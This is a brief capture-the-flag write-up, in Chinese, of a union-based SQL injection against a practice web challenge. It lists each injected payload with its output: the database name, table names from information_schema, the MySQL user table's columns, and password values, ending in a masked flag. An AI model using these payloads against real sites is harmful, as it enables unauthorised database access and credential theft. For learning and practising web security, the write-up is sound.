 [Web-CTF](http://120.114.62.45)

# ACTF-SQL Injection資料庫注入攻擊(post)


欄位用select確認一格
'union select 1#要group_concat() 才有database() 原因不明

字串太長會load不出結果

後來發現可以用括號
=`'union(select(database()))#`

### 爆庫

### 爆table name

in:

'union(select(group_concat(table_name))from information_schema.tables where table_schema=database())#

out:

Account:user

### 爆column name

in:

'union(select(group_concat(column_name))from information_schema.columns where table_name=user)#

out:

無

#### 爆column name

in:

'union(select(group_concat(column_name))from information_schema.columns where table_name='user')#

out:

Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routin

### 撈 User(column)

in:

'union(select(User)from user)#

out:

無

### 撈 Host(column)
in:

'union(select(Host)from user)#

out:無

### 撈 Password(column)
in:

'union(select(Passowrd)from user)#

out:

Account:J_password</br>Account:M_password</br>Account:E_password</br>Account:F_password</br>Account:ACTF{*********}
